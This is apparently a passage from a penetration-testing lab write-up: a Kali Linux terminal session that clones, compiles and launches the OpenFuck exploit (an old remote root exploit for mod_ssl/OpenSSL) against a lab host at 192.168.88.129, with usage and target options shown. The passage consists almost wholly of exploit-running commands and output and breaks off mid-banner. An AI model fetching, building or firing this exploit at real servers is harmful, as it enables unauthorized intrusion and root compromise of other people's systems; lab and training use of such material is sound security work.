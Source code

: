#### OpenFuck

```bash
root@kali:/opt# git clone https://github.com/heltonWernik/OpenLuck
Cloning into 'OpenLuck'...
remote: Enumerating objects: 22, done.
remote: Total 22 (delta 0), reused 0 (delta 0), pack-reused 22
Unpacking objects: 100% (22/22), done.
root@kali:/opt# cd OpenLuck/
root@kali:/opt/OpenLuck# ls
OpenFuck.c  README.md
root@kali:/opt/OpenLuck# apt install libssl-dev;gcc -o OpenFuck OpenFuck.c -lcrypto
Reading package lists... Done
Building dependency tree
Reading state information... Done
The following packages were automatically installed and are no longer required:
  libayatana-ido3-0.4-0 libbfio1 libdvdread4 libhogweed4 libhwloc5 libisl21 libjim0.77 libjte1 libnettle6 libobjc-9-dev python-magic python-paramiko python-pefile
  python-qrcode
Use 'apt autoremove' to remove them.
Suggested packages:
  libssl-doc
The following NEW packages will be installed:
  libssl-dev
0 upgraded, 1 newly installed, 0 to remove and 62 not upgraded.
Need to get 1,797 kB of archives.
After this operation, 8,095 kB of additional disk space will be used.
Get:1 http://ftp2.nluug.nl/os/Linux/distr/kali kali-rolling/main amd64 libssl-dev amd64 1.1.1d-2 [1,797 kB]
Fetched 1,797 kB in 1s (2,965 kB/s)
Selecting previously unselected package libssl-dev:amd64.
(Reading database ... 311173 files and directories currently installed.)
Preparing to unpack .../libssl-dev_1.1.1d-2_amd64.deb ...
Unpacking libssl-dev:amd64 (1.1.1d-2) ...
Setting up libssl-dev:amd64 (1.1.1d-2) ...
root@kali:/opt/OpenLuck# ls
OpenFuck  OpenFuck.c  README.md

root@kali:/opt/OpenLuck# ./OpenFuck

*******************************************************************
* OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

: Usage: ./OpenFuck target box [port] [-c N]

  target - supported box eg: 0x00
  box - hostname or IP address
  port - port for ssl connection
  -c open N connections. (use range 40-50 if u dont know)

root@kali:/opt/OpenLuck# ./OpenFuck 0x6a 192.168.88.129 -c 40

*******************************************************************
* OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
```